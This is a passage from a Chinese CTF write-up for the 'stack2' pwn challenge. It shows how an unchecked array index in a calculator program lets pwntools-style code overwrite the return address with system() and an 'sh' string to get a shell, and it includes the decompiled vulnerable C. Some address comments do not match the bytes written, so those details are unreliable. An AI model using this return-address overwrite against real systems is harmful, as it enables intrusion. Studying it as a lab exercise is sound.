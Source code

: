    0xffffd1bc-0xffffd138=0x84。

3、左边的函数中有hackhere函数，但是实际上服务器没有bash的选项，该函数是干扰项，此处需要字符串“sh”。ROPgadget --binary stack2 --string 'sh'

4、使用UE，寻找sh字符串的地址，或如第三条使用ROPgadget工具实现。
   ```c
def change(addr,num):
        sh.sendlineafter("5. exit\n","3")
        sh.sendlineafter("which number to change:\n",str(addr))
        sh.sendlineafter("new number:\n",str(num))

   change(0x84, 0x50)
   change(0x85, 0x84)
   change(0x86, 0x04)
   change(0x87, 0x08)//system的plt地址：0x804850
   change(0x8c, 0x87)
   change(0x8d, 0x89)
   change(0x8e, 0x04)
   change(0x8f, 0x08)//sh字符串的地址：0x8048980
```

本题目静态反汇编如下：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  //打印信息
  puts("***********************************************************");
  puts("*                      An easy calc                       *");
  puts("*Give me your numbers and I will return to you an average *");
  puts("*(0 <= x < 256)                                           *");
  puts("***********************************************************");
  //输入数字个数
  puts("How many numbers you have:");
  __isoc99_scanf("%d", &v5);
  //将输入的数字放于数组中
  puts("Give me your numbers");
  //简化处理
  while（1）
  {
	puts("1. show numbers\n2. add number\n3. change number\n4. get average\n5. exit");
        __isoc99_scanf("%d", &v6);
	if(v6==1)
	{
		 puts("id\t\tnumber");
        	 for ( k = 0; k < j; ++k )
         		 printf("%d\t\t%d\n", k, v13[k]);
	}
	if(v6==2)
	{
		puts("Give me your number");
          	__isoc99_scanf("%d", &v7);
          	if ( j <= 0x63 )
          	{
            		v3 = j++;
            		v13[v3] = v7;
         	 }	
	}
	if(v6==3)
	{
		puts("which number to change:");
      		__isoc99_scanf("%d", &v5);
      		puts("new number:");
      		__isoc99_scanf("%d", &v7);
      		v13[v5] = v7;//strlen(v13)为0x70，此处未对v5大小进行检查
	}
```